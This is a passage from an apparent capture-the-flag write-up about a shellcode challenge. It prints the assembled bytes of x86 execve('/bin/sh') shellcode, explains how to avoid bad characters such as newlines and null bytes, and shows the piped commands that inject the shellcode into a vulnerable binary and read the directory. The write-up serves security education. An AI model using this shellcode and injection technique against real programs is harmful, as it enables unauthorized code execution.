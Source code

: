 First off, let's make sure it assembles, and see if the resulting machine code contains any "illegal" newlines:

```
$ nasm -f bin exploit_shell.S -o /dev/stdout | xxd -i
  0x68, 0x2f, 0x73, 0x68, 0x00, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3,
  0x31, 0xc0, 0x50, 0xb0, 0x0b, 0x89, 0xe1, 0x89, 0xe2, 0xcd, 0x80

$ nasm -f bin exploit_shell.S -o /dev/stdout | xxd -i | grep -c "0x0a"
0
```
{:.contains-term}

Yay! We've done it. We've constructed some machine code that should call `execve` and it doesn't contain any "illegal" chars. If it did contain illegal chars, we'd have to figure where exactly where they came from and come up with alternative assembly instructions to accomplish the same thing. For instance, if null bytes were illegal, we'd have to figure out how to change `push 0x0068732f` into something that didn't contain a `0x00` when encoded. You might, for instance, do a `push 0x0169722e` followed by a `xor dword ptr [esp], 0x01010101` - which will result in `0x0068732f` ending up on the stack as desired.

## Exploitation

First, `cd` into the problem directory `/problems/shellcode_2_0caa0f1860741079dd0a66ccf032c5f4` on the shell server. Now, at this point, you'd probably be tempted to do something like this (*I know I was*):

```
$ nasm -f bin ~/exploit_shell.S -o /dev/stdout | ./vuln
Enter a string!
h/sh
Thanks! Executing now...
```
{:.contains-term}

Well - the *good news* is it didn't crash. The *bad news* is it didn't give us a shell. So... What happened?

I spent a bit of time debugging this before finally giving up and switching to `pwntools` (which we'll go over in a minute). Now that I've come back to it, I can tell you exactly what happened: everything worked *exactly* the way we wrote it. The problem is that after printing out the shell code, there was no more input to give `/bin/sh` (the stream was at EOF), so the shell immediately quits. What you need is something that still writes to stdout after the shell launches. To prove that everything is working, you can run something like this:

```
$ (nasm -f bin ~/exploit_shell.S -o /dev/stdout && echo && sleep 1 && echo ls) | ./vuln
Enter a string!
h/sh
Thanks! Executing now...
flag.txt  vuln  vuln.c
```
{:.contains-term}

What this does is launch a series of commands in a subshell (that's what the '`(`' and '`)`' are for). That series of commands writes out the shellcode, followed by a newline, then waits for 1 second (while `/bin/sh starts`), then it writes "`ls`". That input is fed into the `./vuln` program, which ends up turning into `/bin/sh` after the shellcode executes, which then prints out the content of the current directory after receiving the `ls` command.
